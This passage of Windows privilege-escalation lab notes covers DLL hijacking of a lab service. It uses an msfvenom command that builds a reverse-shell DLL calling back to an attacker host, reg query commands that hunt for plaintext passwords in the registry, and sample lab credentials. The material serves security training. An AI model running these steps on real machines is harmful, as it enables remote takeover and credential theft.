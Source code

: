     sc qc dllsvc
    ````
4. Run ``Procmon64.exe`` with administrator privileges. Press 
``Ctrl+L`` to open the Filter menu.
5. Add a new filter on the Process Name matching 
``dllhijackservice.exe``.
6. On the main screen, deselect registry activity and 
network activity.
7. Start the service:
    ````
    net start dllsvc
    ````
8. Back in Procmon, note that a number of “NAME NOT 
FOUND” errors appear, associated with the hijackme.dll file.
9. At some point, Windows tries to find the file in the ``C:\Temp`` 
directory, which as we found earlier, is writable by our user
10. On Kali, generate a reverse shell DLL named hijackme.dll:
    ````
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR-IP LPORT=53 -f dll -o hijackme.dll
    ````
11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a 
listener on Kali and then stop/start the service to trigger the exploit:
    ````
    net stop dllsvc
    net start dllsvc
    ````

AND BIM!

----

## Registry

Plenty of programs store configuration options in the 
Windows Registry.
Windows itself sometimes will store passwords in 
plaintext in the Registry.
It is always worth searching the Registry for passwords

### Searching the Registry for Passwords
The following commands will search the registry for keys and 
values that contain “password”
````
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
````
This usually generates a lot of results, so often it is more 
fruitful to look in known locations

---

**Exercise :**
- IP : 10.12.1.100/24
- ID : student\admin
- PASSWORD : password123
